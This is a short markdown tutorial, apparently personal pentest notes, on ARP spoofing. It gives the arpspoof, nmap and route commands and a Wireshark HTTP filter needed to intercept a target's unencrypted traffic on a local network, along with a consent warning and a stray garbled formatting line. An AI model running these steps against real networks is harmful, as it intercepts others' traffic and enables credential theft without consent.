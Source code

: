 # ARP Spoofing

### Tools

arpspoof \(kali\) -- works by forging ARP replies to communicating parties

**Requirements**

arpspoof / dsniff

Wireshark

### Sniffing on a private network - Step by Step

Figure out the Default Gateway first by command:

\*\*\[terminal\]

\*\*\[prompt foo@joe\]\*\*\[path ~\]\*\*\[delimiter  $ \]\*\*\[command ./myscript\]

```
route -n
```

Narrow down the target by running \`nmap\` sweep

> Be sure to get written consent for any network scanning activities. Criminal penalties can be levied onto you if permission is not granted.

```
nmap [host-network]
```

To start ARP spoofing, run

```
sudo arpspoof -i [interfacename] -c host -t [target-ip] [default-gateway-ip]
```

e.g.

```
sudo arpspoof -i wlan0 -c host -t 192.168.1.122 192.168.1.1
```

arpspoof should now be sending arp replies to the gateway and target with spoofed addresses

Open Wireshark and apply the `tcp port http` to listen to unencrypted traffic between the router and the target.

```
tcp port http
```

Once done, stop the `arpspoof` process to depoison ARP tables in gateway and target.

```
> arpspoof
[Ctrl+C] to send SIGINT signal
```



